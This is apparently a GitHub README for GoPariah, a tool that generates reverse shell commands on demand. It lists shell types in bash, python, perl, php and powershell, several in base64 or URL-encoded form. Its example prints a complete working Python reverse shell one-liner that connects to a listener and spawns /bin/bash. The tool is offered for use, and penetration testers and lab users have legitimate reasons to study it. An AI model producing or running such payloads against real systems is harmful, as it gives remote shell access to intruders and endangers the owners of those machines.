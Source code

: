 <div align=center>
  <img src="https://miro.medium.com/v2/resize:fit:1358/0*rs9e2N81fxl4n-Dx.png" width=250px>
</div>

# GOPARIAH

GoPariah is a tool to generate reverse shells on the fly. It was inspired by [LazyPariah](https://github.com/octetsplicer/LAZYPARIAH).

### Installing or Downloading
You can build it from source by running the following commands:

```
$ git clone https://github.com/julio-cfa/gopariah.git
$ go build -o gopariah main.go
```
Or, alternatively, you can grab a precompiled binary from the "Releases" section.
<br>PS: Don't forget to add it to your PATH.
### Usage
```
$ ./gopariah --help
Usage: ./gopariah <revshell-type> <lhost> <lport> 

> Available revshells: 
  bash
  bash_urlencode
  python
  python3
  python_b64
  python3_b64
  python_urlencode
  python3_urlencode
  mkfifo
  mkfifo_urlencode
  perl
  perl_b64
  perl_urlencode
  php
  php_b64
  php_urlencode
  powershell
  powershell_b64
  powershell_urlencode
```
### Example
```
$ ./gopariah python3 127.0.0.1 9001
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
